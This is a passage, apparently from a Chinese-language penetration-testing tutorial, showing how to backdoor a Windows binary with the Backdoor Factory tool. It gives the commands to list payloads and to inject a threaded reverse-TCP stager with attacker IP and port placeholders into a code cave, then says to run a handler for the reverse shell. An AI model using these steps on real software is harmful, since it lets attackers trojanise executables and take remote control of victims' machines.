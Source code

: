 ```
backdoor-factory –f <path to binary> -s show
```

然后我们将使用`iat_reverse_tcp_stager_threaded`：

```
backdoor-factory –f <path to binary> -s iat_reverse_tcp_stager_threaded –H <our IP> -P <Port>
```

![](img/a65a4970-36ad-4ef9-b3b5-61f1cfb336c9.png)

接下来，我们选择要用于注入有效载荷的洞穴：

![](img/a944b432-52de-461f-95fb-32b4f38b2a4c.png)

我们的二进制文件已经创建并准备部署。

现在我们需要做的就是运行一个处理程序，它将接受来自我们有效载荷的反向连接：

![](img/d3b2866d-9401-481b-b5ab-72826746f7f8.png)
